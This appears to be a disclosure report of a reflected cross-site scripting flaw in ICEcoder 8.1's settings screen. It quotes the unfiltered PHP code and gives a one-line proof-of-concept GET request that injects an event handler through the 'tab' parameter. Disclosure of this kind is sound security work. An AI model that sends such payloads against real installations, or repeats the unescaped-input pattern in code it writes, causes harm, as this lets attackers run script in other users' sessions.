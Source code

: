 A xss vulnerability in icecoder 8.1.

In file lib/settings-screen.php

```php
...
if (true === isset($_GET['tab'])) {
    $tabSwitchExtra = "switchTab('" . $_GET['tab'] . "');";		// Line 42 (Source)
}
...
<body class="settings" onkeyup="parent.ICEcoder.handleModalKeyUp(event, 'settings')" onload="<?php echo $tabSwitchExtra;?>this.focus();">	// Line 50(Sink)
```

Source from `$_GET['tab']` and without any filtering, which resulting in XSS.

# Poc

`GET /lib/settings-screen.php?tab=style%27)%22%20onerror=%22alert(%27xss%27)%22%20(%27&csrf=f64d3d95dc4af18766d285ff437e4d4f`

The value of csrf can access from index.php

# Manual verification

![alt text](3.png)

![alt text](4.png)



The developer has been informed of the report via email
